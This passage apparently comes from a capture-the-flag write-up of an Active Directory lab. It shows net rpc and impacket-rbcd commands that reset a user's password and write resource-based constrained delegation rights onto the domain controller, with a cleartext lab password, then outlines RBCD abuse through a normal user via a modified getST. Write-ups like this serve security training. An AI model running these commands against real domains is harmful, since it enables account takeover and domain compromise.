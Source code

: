 ```
net rpc password WSILVA -U phantom.vl/svc_sspr -S dc.phantom.vl
```

<img src="attachments/c4c4248f5f199e1d871f5b33dccd84c2.png" />

We also used **CrackMapExec** to verify whether it worked.

<img src="attachments/a22604ab11ef616d1bf7ffd68fdce82d.png" />

We edited the **`msDS-AllowedToActOnBehalfOfOtherIdentity`** property.

```
impacket-rbcd -delegate-to 'DC$' -delegate-from 'WSILVA' -dc-ip 10.10.105.203 -action 'write' 'phantom.vl'/'WSILVA':'Phantom2023!'
```

<img src="attachments/198f84aa03b670c30673a356bef09df4.png" />

#### Performing resource based delegation with a domain user

To abuse **RBCD**, we needed to know the status of the machine quota in order to create a machine account and then add it to the DC’s property. However, the quota was set to 0.

<img src="attachments/f0afd4456dace20676e4e957ae20042f.png" />

However, we could still perform **RBCD** through a normal domain user. For this, we needed a modified [branch of **getST**](https://github.com/ShutdownRepo/impacket/tree/getST) with the [U2U Kerberos extension](https://www.thehacker.recipes/a-d/movement/kerberos/delegations/rbcd).

<img src="attachments/db19bf0aace1d71dcb00d7b60772ec7e.png" />
